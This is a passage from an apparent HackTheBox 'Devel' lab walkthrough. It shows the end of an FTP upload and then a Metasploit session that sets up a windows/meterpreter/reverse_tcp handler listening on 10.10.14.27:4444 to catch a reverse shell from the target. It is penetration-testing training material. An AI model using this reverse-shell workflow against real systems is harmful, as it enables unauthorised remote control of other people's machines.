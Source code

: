 ```
226 Transfer complete.
ftp> 
```

We start Metasploit and open a meterpreter handler connecting on port 4444: 

```
user@kali:~/hackthebox/hackthebox/devel$ sudo msfdb run
[sudo] password for user: 
[+] Starting database
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v6.0.21-dev                          ]
+ -- --=[ 2086 exploits - 1126 auxiliary - 354 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try 
globally setting it with setg RHOSTS x.x.x.x

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => 10.10.14.27
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.27:4444 
```

